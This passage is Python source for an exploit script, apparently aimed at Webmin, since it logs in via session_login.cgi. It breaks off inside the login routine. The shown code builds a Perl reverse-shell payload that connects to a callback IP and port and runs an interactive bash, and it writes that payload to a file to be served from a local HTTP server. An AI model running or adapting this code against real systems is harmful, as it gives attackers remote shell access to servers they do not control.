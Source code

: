 import requests
import urllib3
import argparse
import os
import time

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

TGREEN =  '\033[32m'
TRED =  '\033[31m'
TCYAN =  '\033[36m'
TSHELL =  '\033[32;1m'
ENDC = '\033[m'

class Exploit(object):
    def __init__(self, target, username, password, py3http_server, pyhttp_port, upload_path, callback_ip, callback_port, fname):
        self.target = target
        self.username = username
        self.password = password
        self.py3http_server = py3http_server
        self.pyhttp_port = pyhttp_port
        self.upload_path = upload_path
        self.callback_ip = callback_ip
        self.callback_port = callback_port
        self.fname = fname

        #self.proxies = proxies
        self.s = requests.Session()


    def gen_payload(self):
        payload = ('''perl -e 'use Socket;$i="''' + self.callback_ip  + '''";$p=''' + self.callback_port + ''';socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};' ''')
        print(TCYAN + f"\n[+] Generating payload to {self.fname} in current directory", ENDC)
        f = open(f"{self.fname}", "w")
        f.write(payload)
        f.close()

    def login(self):
        login_url = self.target + "/session_login.cgi"
        cookies = { "redirect": "1", "testing": "1", "PHPSESSID": "" }

        data = { 'user' : self.username, 'pass' : self.password }
        try:
            r = self.s.post(login_url, data=data, cookies=cookies, verify=False, allow_redirects=True, timeout=10)
            success_message = 'System hostname'
            if success_message in r.text:
                print(TGREEN + "[+] Login Successful", ENDC)
            else:
                print(TRED +"[-] Login Failed", ENDC)
                exit()
